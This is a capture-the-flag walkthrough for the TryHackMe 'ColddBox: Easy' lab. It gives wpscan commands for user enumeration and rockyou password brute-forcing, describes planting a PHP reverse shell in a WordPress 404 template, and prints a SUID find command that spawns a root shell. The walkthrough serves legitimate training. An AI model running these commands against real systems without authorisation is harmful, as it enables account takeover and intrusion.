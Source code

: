 ```yaml
---
title: ColddBox:Easy WalkThrough
permalink: /colddbox
layout: page
tags: TryHackMe
---
```

# ColddBox:Easy
# ![front](/images/coldd/front.png)
[https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

## Open Ports:
- 9: discard
- 80: HTTP
![ports](/images/coldd/ports.png)
	
## Gaining Access:
• Found a wordpress website with version on **nmap** scan `4.1.31`
```
$ wpscan --url http://10.10.176.163  -e vp,vt,u       
````	
![wp](/images/coldd/wp.png)

* Found anuthors/users:
![users](/images/coldd/users.png)
 * Hugo
 * C0ldd
 * Philip

• Now performing password bruteforce for these 3 usernames
```
$ wpscan --url  http://10.10.176.163 --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd,hugo,philip
```
![passwd](/images/coldd/passwd.png)

• Using this password we can login to /wp-admin
• Go to appearance and editor, select `404 templet` to edit.
• Paste the php revshell from pentestmonkey in the editor 
• Start the listener `nc`
• To execute the revsheel access: `http://ip/>p=404.php`
• Unable to access usr.txt
• Uploading linpeas.sh
• Found suid set on **_find_**
```
$ /usr/bin/find . -exec /bin/sh -p \; -quit
```
• Now we have root access.

### User Flag:
![uf](/images/coldd/uflag.png)

## Root Flag:
![root](/images/coldd/root.png)

	
	
